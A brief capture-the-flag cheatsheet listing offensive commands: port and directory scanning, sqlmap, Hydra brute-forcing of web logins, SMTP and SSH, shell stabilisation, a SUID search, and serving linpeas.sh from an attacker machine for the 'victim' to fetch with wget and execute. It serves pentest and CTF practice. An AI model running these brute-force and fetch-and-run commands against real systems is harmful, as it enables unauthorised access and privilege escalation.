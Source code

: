# CTF-cheatsheet
## RECON
### NMAP
`sudo nmap -sV -sT -A -p- IP`
### FFUF
`ffuf -u http://IP/FUZZ -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -ac` no extensions \
`ffuf -u http://IP/FUZZ -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -e .php,.js,.html,.txt -ac` with extensions 
#### Other extensions that could be used: .cfg, .bak, .json, etc.
### Dirsearch
`dirsearch -u http://IP`
### Sqlmap
`sqlmap -u http://IP --forms`
#### Depending on the situation, `--level=` and `--risk=` can be used
## EXPLOIT
* ExploitDB
* GitHub
* Metasploit
### Hydra
`hydra -L useranme.txt -P passwords.txt IP/DOMAIN_NAME http-post-form "/login.php:username=^USER^&password=^PASS^:Invalid creds or something" -V -f`
>Login form brute-forcing

`hydra -l user -P list.lst IP smtps -V -f`
>SMTP/S Brute-forcing

`hydra -l user -P list.lst ssh://IP -V -f`
>SSH Brute-forcing

## PRIVESC
#### Shell stabilization
```
python3 -c 'import pty; pty.spawn("/bin/bash");'
export TERM=xterm
```
#### Background session
```
stty -raw echo
fg
```
#### Foreground back to victim

### Find SUID binaries
`find / -perm -u=s -type f 2>/dev/null`
### Get and run linpeas.sh
#### On attacker machine:
```
python3 -m http.server 9000
````
#### On victim
```
cd /tmp
wget -u http://IP:9000/linpeas.sh
chmod +x linpeas.sh
./linpeas.sh
```
#### Curl can also be used, or whatever method to get linpeas.sh on victim's machine

